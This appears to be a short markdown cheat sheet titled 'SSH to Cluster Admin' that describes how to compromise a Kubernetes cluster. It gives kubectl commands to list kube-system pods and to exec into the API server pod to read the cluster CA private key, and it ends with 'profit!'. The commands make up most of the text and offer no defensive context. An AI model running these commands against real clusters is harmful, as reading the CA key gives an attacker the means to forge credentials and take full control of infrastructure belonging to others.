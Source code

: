 # SSH to Cluster Admin

## Compromising the cluster

1. `kubectl get po -n kube-system` will get the pod list for kube-system
2. `kubectl -n kube-system exec [API_SERVER] cat /etc/kubernetes/pki/ca.key`
3. profit!
